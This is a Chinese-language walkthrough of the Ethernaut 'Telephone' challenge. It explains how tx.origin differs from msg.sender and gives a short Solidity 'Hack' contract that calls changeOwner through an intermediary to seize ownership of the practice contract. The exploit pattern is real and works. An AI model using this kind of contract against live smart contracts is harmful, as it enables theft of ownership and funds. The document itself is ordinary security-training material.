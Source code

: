 # Telephone

## 题目

目标：修改owner

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

## 分析

这道题比较简单，只有一个方法可以修改owner。方法里面只有一个点`tx.origin != msg.sender`。要判断成功，就要tx.origin不等于msg.sender。那么我们来回顾一下他们两者的区别

- msg.sender：msg.sender 仅会读取上层调用者的地址。
- tx.origin：tx.origin 会读取启动交易的原始地址。

由下图可以看到，Bob 通过 A 合约调用 B 合约，B 合约又调用 C 合约。对于 C 合约来说，tx.origin 为 Bob ，msg.sender 为 B 合约。对于 B 合约来说， tx.origin 也是 Bob ， msg.sender 为 A 合约，对于 A 合约来说，tx.origin 与 msg.sender 均为 Bob 。这里我们可以得出一个结论：tx.origin 永远都是 EOA 地址，msg.sender 可以为 EOA 也可以为合约地址。

![640](04.Telephone/640.jpeg)

这么说，我们不可以直接调用Telephone合约的`changeOwner(address _owner)`方法，应该写一个合约来间接调用

## 攻击代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract Hack{
    Telephone telephone = Telephone(0x48db2e171B542DDE57f6E3116e42C5D9A5D47334);
    function attack()public{
        telephone.changeOwner(0xd3E65149C212902749D49011B6ab24bba30D97c6);
    }
}
```

## 做题

获取实例并且部署，然后调用attack发起攻击。查看owner，发现成功修改

![image-20221222214002420](04.Telephone/image-20221222214002420.png)

通过

![image-20221222213641573](04.Telephone/image-20221222213641573.png)



[原题目地址](https://ethernaut.openzeppelin.com/level/0x1ca9f1c518ec5681C2B7F97c7385C0164c3A22Fe)
